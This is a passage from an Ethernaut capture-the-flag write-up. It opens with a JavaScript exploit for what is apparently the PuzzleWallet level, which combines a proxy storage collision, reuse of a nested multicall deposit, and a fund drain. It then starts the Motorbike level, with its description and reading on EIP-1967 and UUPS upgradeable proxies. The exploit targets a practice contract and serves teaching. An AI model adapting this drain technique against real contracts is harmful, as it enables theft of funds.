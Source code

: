 ```js
const proposeAdminCall= web3.eth.abi.encodeFunctionCall({
name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_newAdmin'
        }
    ]
},player)

await web3.eth.sendTransaction({data:proposeAdminCall,from:player,to:instance});

await contract.addToWhitelist(player);

// getting the deposit call data

const depositData = (await contract.methods('deposit()').request()).data

const multiCallData = (await contract.methods('multicall(bytes[])').request([depositData])).data

await contract.multicall([multicallData,multicallData],{value:toWei('0.001')}); // adding to our balance

await contract.execute(player,toWei('0.002'),'0x0'); // Draining funds

await contract.setMaxBalance(player) // It will convert upon call 
```

Challenge solved ✅

## Motorbike

**Challenge description**

> Ethernaut's motorbike has a brand new upgradeable engine design. 
>  Would you be able to selfdestruct its engine and make the motorbike unusable ?
>Things that might help:
    EIP-1967
    UUPS upgradeable pattern
    Initializable contract

--------
**Analysis**

To solve this challenge, we need to be familiar with both [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) and most importantly  the [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)

After going through all the reading material, as usual I drew the diagram to understand the core logic of the contracts.

![Motorbike Diagram](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138012/3ac10a42b6cb747f06aad171856c6d4814105583603857fbc5fd1e2549969c23_usrhte.png)  
